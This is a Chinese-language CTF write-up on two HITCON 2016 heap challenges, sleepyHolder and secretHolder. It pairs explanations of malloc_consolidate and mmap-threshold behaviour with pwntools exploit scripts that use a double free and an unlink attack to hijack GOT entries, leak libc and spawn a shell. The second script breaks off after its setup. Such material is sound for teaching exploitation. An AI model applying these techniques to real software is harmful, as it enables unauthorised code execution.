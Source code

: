 ## Part III

### sleepyHolder_hitcon_2016

这道题允许保存 small/big/huge secret，其中 huge 只能保存一次，不能删除和修改，并且在保存了一个 small/big 之后就不能再保存新的 small/big 了，只能 renew。

显然这个 huge 就是我们漏洞利用的核心。实际上，huge 的范围属于 large bin，在申请这么大的 chunk 时如果 unsorted bin 中没有满足条件的，就会触发 `malloc_consolidate()`，使 fastbin 中的 chunk 合并进入 unsorted bin，最终根据合并后的大小进入 small bin 或 large bin。那么我们不妨先申请一个 small，然后申请 big 防止 small 被释放时与 top chunk 合并，再释放 small。此时 small 进入 fastbin，再申请 huge 即可让 small 进入到 small bin。

由于这时 small 已经不处于 fastbin 链表头了，所以再次释放并不会出错，造成 double free。这样之后在 small 内伪造 chunk 并 unlink 劫持 GOT 表即可。

```python
add(1)
add(2)
delete(1) # 1->fastbin
add(3) # consolidate,1->unsorted bin->smallbin
delete(1)

small_secret = 0x6020d0
fd = small_secret - 0x18
bk = small_secret - 0x10
payload = flat(0,0x21,fd,bk,0x20)
add(1,payload)
delete(2)

# ?,big,huge,small,big_flag,huge_flag,small_flag
payload = flat(0,elf.got['atoi'],elf.got['puts'],elf.got['free']) + p32(1)*3
edit(1,payload)
edit(1,p64(elf.plt['puts'])) # free -> puts
delete(2)
atoi = uu64(r(6))
system,binsh = ret2libc(atoi,'atoi')
edit(1,p64(system))
add(2,'/bin/sh\x00')
delete(2)
```

### secretHolder_hitcon_2016

类似上一题，不过 huge 可以修改和删除了。由于 huge 非常大，分配时会调用 `mmap()`，但是当释放掉 huge 再申请时，`mmap_threshold` 已经变得和 huge 一样大，此时分配 huge 使用的是 `brk()`，因此 huge 被分配到了堆上。

利用这个特性，我们可以先令 small 和 huge 地址重合，随后在下面垫上 big。在 small 里伪造堆块并释放 big，触发 unlink，剩余的工作就和上一题一模一样了。

```python
def add(type,content='a'):
    sla('Renew secret\n','1')
    sla('Huge secret\n',str(type))
    sa(': \n',content)
def delete(type):
    sla('Renew secret\n','2')
    sla('Huge secret\n',str(type))
def edit(type,content):
    sla('Renew secret\n','3')
    sla('Huge secret',str(type))
    sa(': \n',content)

add(1)
add(2)
delete(1)
delete(2)
add(3)
delete(3) # mmap threshold +++
```